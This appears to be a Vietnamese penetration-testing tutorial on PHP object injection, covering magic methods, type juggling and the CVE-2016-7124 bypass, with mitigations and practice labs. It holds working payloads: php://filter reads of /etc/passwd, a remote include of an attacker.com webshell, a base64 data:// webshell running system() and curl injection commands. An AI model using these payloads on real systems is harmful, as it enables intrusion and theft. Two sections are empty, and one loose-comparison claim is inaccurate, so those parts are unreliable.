


> **Prerequisites**: [[01-serialization-foundation|01. Serialization Foundation]]
> **Objectives**:
> - Nắm 17 magic methods PHP và điều kiện trigger của từng method
> - Hiểu cơ chế PHP Object Injection từ góc độ attacker
> - Khai thác trực tiếp khi magic method chứa code nguy hiểm
> - Nhận biết entry points và bypass techniques (type juggling)

---

## Điều kiện khai thác

> [!note] Điều kiện bắt buộc
> - Ứng dụng truyền **user-controlled input** trực tiếp vào `unserialize()`
> - Class được deserialise phải **nằm trong scope** của application (loaded/autoloaded)
> - Class đó phải có **magic method chứa code nguy hiểm** (hoặc là entry gadget cho POP chain)

> [!tip] Black-box indicators
> Tìm kiếm trong HTTP traffic: cookie hoặc parameter chứa `O:N:"ClassName"` hoặc blob base64 decode ra PHP serialized format. Error message chứa `unserialize()` hoặc `Object deserialization error` là dấu hiệu rõ ràng.

---

## Cơ chế tấn công

### 17 Magic Methods — Bảng đầy đủ

PHP tự động gọi các magic methods trong những tình huống nhất định. Đây là cơ sở của toàn bộ PHP deserialization attack:

| Method | Trigger | Attack potential |
|--------|---------|-----------------|
| `__wakeup()` | Ngay sau `unserialize()` | Rất cao — trigger tự động, entry point phổ biến nhất |
| `__destruct()` | Khi object bị garbage collected | Rất cao — luôn được gọi sau khi script kết thúc |
| `__toString()` | Khi object cast sang string | Cao — trigger khi echo, print, string concat |
| `__call()` | Gọi method không tồn tại | Cao — flexible entry |
| `__callStatic()` | Gọi static method không tồn tại | Trung bình |
| `__get()` | Đọc property không tồn tại / không accessible | Cao |
| `__set()` | Ghi vào property không tồn tại | Trung bình |
| `__isset()` | `isset()` trên property không tồn tại | Thấp |
| `__unset()` | `unset()` trên property không tồn tại | Thấp |
| `__invoke()` | Object được gọi như function `$obj()` | Trung bình |
| `__clone()` | `clone $obj` | Thấp |
| `__debugInfo()` | `var_dump()` | Thấp |
| `__serialize()` | PHP 7.4+ — khi serialize() | N/A (serialize phase) |
| `__unserialize()` | PHP 7.4+ — thay thế __wakeup() | Cao |
| `__sleep()` | Khi serialize() — chọn properties | N/A (serialize phase) |
| `__set_state()` | `var_export()` với `eval()` | Thấp |
| `__construct()` | **KHÔNG được gọi** khi unserialize | N/A |

> [!warning] __construct() KHÔNG được trigger
> Đây là hiểu lầm phổ biến. `__construct()` **không** được gọi trong quá trình deserialization. PHP reconstruct object trực tiếp từ serialized data, bypass constructor. Chỉ `__wakeup()` và `__unserialize()` (PHP 7.4+) được gọi khi unserialize.

### Trigger chain — thứ tự execution



---

## Quy trình tấn công

### Case 1 — Magic method chứa code nguy hiểm trực tiếp

Đây là trường hợp đơn giản nhất. Magic method có code có thể khai thác mà không cần chain.

**Môi trường giả định**: PHP application, `unserialize($_COOKIE['auth'])` với class `Config`.

**Bước 1 — Đọc source code, tìm dangerous magic methods**

```php
// Source code bị lộ hoặc tìm được
class Config {
    public $template;
    public $logFile;

    public function __destruct() {
        // BUG: dùng template để include file
        include($this->template);
    }

    public function __toString() {
        return file_get_contents($this->logFile);
    }
}
```

> **Expected output**: Phát hiện `__destruct()` gọi `include()` với attacker-controlled `$template` → Local File Inclusion → RCE via PHP filter.

**Bước 2 — Tạo payload**

```php
<?php
class Config {
    public $template = 'php://filter/convert.base64-encode/resource=/etc/passwd';
    public $logFile = '/etc/passwd';
}

$obj = new Config();
echo serialize($obj);
// Output: O:6:"Config":2:{s:8:"template";s:53:"php://filter/...";s:7:"logFile";s:11:"/etc/passwd";}
```

**Bước 3 — Inject vào cookie và gửi request**

```bash
# URL-encode và set cookie
curl -b 'auth=O%3A6%3A%22Config%22%3A2%3A%7Bs%3A8%3A%22template%22%3Bs%3A53%3A%22php%3A%2F%2Ffilter%2Fconvert.base64-encode%2Fresource%3D%2Fetc%2Fpasswd%22%3Bs%3A7%3A%22logFile%22%3Bs%3A11%3A%22%2Fetc%2Fpasswd%22%3B%7D' \
    http://target.com/profile

# Hoặc base64 encode trước
echo -n 'O:6:"Config":2:{...}' | base64
```

> **Expected output**: Response chứa /etc/passwd hoặc error PHP. Nếu include() hoạt động → escalate lên RCE bằng PHP filter + base64.

**Bước 4 — Escalate lên RCE**

```php
// Payload mạnh hơn — include webshell từ remote (nếu allow_url_include=On)
class Config {
    public $template = 'http://attacker.com/shell.php';
}

// Hoặc dùng data:// wrapper
class Config {
    public $template = 'data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=';
    // base64 = <?php system($_GET['cmd']);?>
}
```

> **Expected output**: Webshell được include và thực thi → RCE.

### Case 2 — Type Juggling để bypass authentication

PHP có loose comparison (`==`) — có thể exploit khi deserialise giá trị bool/int:

**Bước 1 — Hiểu lỗi**

```php
<?php
$data = unserialize($_COOKIE['auth']);
// Nếu $data['isAdmin'] == true → allow

// PHP loose comparison:
// true == "anything" → TRUE
// true == 1 → TRUE
// 0 == "admin" → TRUE (PHP < 8.0)
```

**Bước 2 — Craft payload**

```php
// Thay vì a:1:{s:7:"isAdmin";b:0;}  (false)
// Ta gửi:
$payload = 'a:1:{s:7:"isAdmin";b:1;}';  // bool true
// Hoặc:
$payload = 'a:1:{s:7:"isAdmin";i:1;}';  // int 1
```

---

## Biến thể & Bypass

### Bypass __wakeup() CVE-2016-7124

Khi số lượng properties trong serialized string **lớn hơn** số properties thực tế của class → PHP bỏ qua `__wakeup()`:

```php
// Bình thường: O:4:"User":1:{s:4:"name";s:5:"admin";}
// Bypass:      O:4:"User":2:{s:4:"name";s:5:"admin";}
//                             ^--- 2 nhưng class chỉ có 1 property
```

> [!warning] Phạm vi ảnh hưởng
> CVE-2016-7124 ảnh hưởng PHP < 5.6.25 và < 7.0.10. Trong một số ứng dụng, `__wakeup()` được dùng để validation (kiểm tra object hợp lệ) — bypass nó mở ra attack surface.

### Access modifier bypass — Private/Protected properties

PHP serialize private và protected properties với prefix đặc biệt:

```php
// Public: s:4:"name";
// Protected: s:7:"\x00*\x00name";  (null byte + * + null byte)
// Private: s:12:"\x00ClassName\x00name";
```

```bash
# Inject private property — cần null bytes
# Trong Burp Suite: dùng hex editor hoặc Python để tạo payload
python3 -c "
import base64
payload = b'O:4:\"User\":1:{s:12:\"\x00User\x00secret\";s:5:\"pwned\";}'
print(base64.b64encode(payload).decode())
"
```

---

## Cây quyết định



---

## Command Cheatsheet

**Tạo PHP serialized payload**

```php
<?php
// Template tạo payload - chỉnh sửa class name và properties
class TargetClass {
    public $prop1 = 'value1';
    public $prop2 = 'value2';
}
$obj = new TargetClass();
echo serialize($obj);
echo "\n";
echo base64_encode(serialize($obj));
```

**Decode và inspect serialized data**

```bash
# Decode base64 PHP serialized từ cookie
echo "T...base64..." | base64 -d

# Kiểm tra trong PHP CLI
php -r "var_dump(unserialize('O:4:\"User\":1:{s:4:\"name\";s:5:\"admin\";}'));"

# URL-decode rồi check
python3 -c "import urllib.parse; print(urllib.parse.unquote('O%3A4%3A...'))"
```

**Inject qua curl**

```bash
# Qua cookie
PAYLOAD='O:6:"Config":1:{s:8:"template";s:27:"php://filter/.../resource=.";}' 
ENCODED=$(php -r "echo urlencode('$PAYLOAD');")
curl -b "auth=$ENCODED" http://target.com/

# Qua POST
curl -X POST -d "data=$(php -r "echo base64_encode(serialize(\$obj));")" \
    http://target.com/api

# Qua GET param
curl "http://target.com/?token=$(python3 -c "import base64,sys; print(base64.b64encode(sys.stdin.buffer.read()).decode())" <<< 'O:4:...')"
```

**Tìm magic methods trong source**

```bash
# Tìm tất cả magic methods trong codebase
grep -rn "__wakeup\|__destruct\|__toString\|__call\b\|__get\b\|__set\b\|__invoke" \
    --include="*.php" /var/www/

# Tìm unserialize entry points
grep -rn "unserialize\s*(" --include="*.php" /var/www/

# Tìm dangerous sinks
grep -rn "eval\|system\|exec\|passthru\|shell_exec\|include\|require\|file_put_contents" \
    --include="*.php" /var/www/
```

---

## Daily Drill

**Thời gian**: 15–20 phút/ngày trong 7 ngày đầu.

**Drill 1 — Đọc và hiểu serialized string**
Mục tiêu: nhìn vào PHP serialized string là parse được ngay trong đầu.

```bash
# Tự đọc 5 serialized strings này không dùng tool:
php -r "echo serialize(['admin' => true, 'id' => 42, 'token' => 'abc']);"
php -r "class U{public \$r='guest';} echo serialize(new U());"
php -r "echo serialize([1, 'hello', null, false, 3.14]);"
```

Luyện cho đến khi: giải mã bằng mắt trong dưới 10 giây mỗi string.

**Drill 2 — Tạo payload cho magic method đã biết**
Mục tiêu: viết payload exploit script không cần nhìn template.

```php
<?php
// Cho class có __destruct() gọi system($this->cmd)
// Viết payload từ memory:
class Vuln { public $cmd = 'id'; }
echo base64_encode(serialize(new Vuln()));
```

Luyện cho đến khi: viết exploit script trong dưới 2 phút.

**Drill 3 — Nhận biết magic methods nguy hiểm**
Mục tiêu: đọc PHP class và xác định được attack vector trong 30 giây.

Mỗi ngày lấy một PHP class từ GitHub và kiểm tra: có magic method không? Có code nguy hiểm không? Entry point là gì?

```bash
# Tìm class để practice:
grep -rn "__destruct\|__wakeup\|__toString" \
    /usr/share/phpggc/gadgetchains/ 2>/dev/null | head -20
```

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **PHP error logs**: Tìm `unserialize(): Error at offset` — dấu hiệu ai đó gửi payload lỗi khi probe
>
> **Web server logs**: Request size bất thường trong cookie header (serialized objects thường dài hơn JWT)
>
> **WAF rules**: Pattern `O:[0-9]+:"` hoặc `a:[0-9]+:{` trong cookie/body

> [!note] Mitigation
> - **Không bao giờ** truyền user input vào `unserialize()` — dùng JSON thay thế
> - Nếu bắt buộc phải dùng: implement HMAC signature trên serialized data
> - PHP 7.4+: implement `__unserialize()` thay vì `__wakeup()` (không bị bypass CVE-2016-7124)
> - Sử dụng `allowed_classes` parameter: `unserialize($data, ['allowed_classes' => ['SafeClass']])`
> - Deploy Suhosin patch để thêm serialization protection

---

## Lab Thực hành

| Platform | Machine/Lab | Tại sao phù hợp |
|----------|-------------|-----------------|
| PortSwigger | **Modifying serialized objects** | Lab 1 — PHP serialization basics |
| PortSwigger | **Modifying serialized data types** | Type juggling bypass |
| PortSwigger | **Using application functionality to exploit deserialization** | __destruct() exploitation |
| TryHackMe | **Insecure Deserialization** room | PHP Object Injection walkthrough |

Làm theo thứ tự PortSwigger Lab 1 → 2 → 3 trước khi làm TryHackMe.
